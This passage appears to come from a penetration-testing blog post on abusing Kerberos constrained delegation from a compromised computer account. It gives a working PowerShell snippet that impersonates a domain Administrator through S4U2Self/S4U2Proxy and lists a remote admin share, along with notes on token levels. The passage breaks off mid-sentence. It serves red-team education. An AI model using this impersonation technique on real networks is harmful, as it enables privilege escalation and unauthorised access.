

Scenario 2 : Agent on a Computer Configured For Constrained Delegation
If you are able to compromise a computer account that is configured for constrained delegation (instead of a user account) the attack approach is a bit different. As any process running as SYSTEM takes on the privileges of the local machine account, we can skip the Kekeo asktgt.exe step. You can also use an alternative method to execute the S4U2Proxy process, helpfully provided by Microsoft. Lee and I translated the process from C# into PowerShell as follows:
# translated from the C# example at https://msdn.microsoft.com/en-us/library/ff649317.aspx
# load the necessary assembly
$Null = [Reflection.Assembly]::LoadWithPartialName('System.IdentityModel')
# execute S4U2Self w/ WindowsIdentity to request a forwardable TGS for the specified user
$Ident = New-Object System.Security.Principal.WindowsIdentity @('Administrator@TESTLAB.LOCAL')
# actually impersonate the next context
$Context = $Ident.Impersonate()
# implicitly invoke S4U2Proxy with the specified action
ls \\PRIMARY.TESTLAB.LOCAL\C$
# undo the impersonation context
$Context.Undo()
As detailed by Microsoft, when using WindowsIdentity, an “identify-level” token is returned by default for most situations. This allows you to see what groups are associated with the user token, but doesn’t allow you to reuse the access. In order to use the impersonation context to access additional network resources, an impersonation-level token is needed, which is only returned when the requesting account has the “
Also, due to some of the powershell.exe peculiarities I mentioned a bit ago, if you are using PowerShell Version 2, you need to launch powershell.exe in single-thread apartment mode (with the “-sta” flag) in order for the token impersonation to work properly:
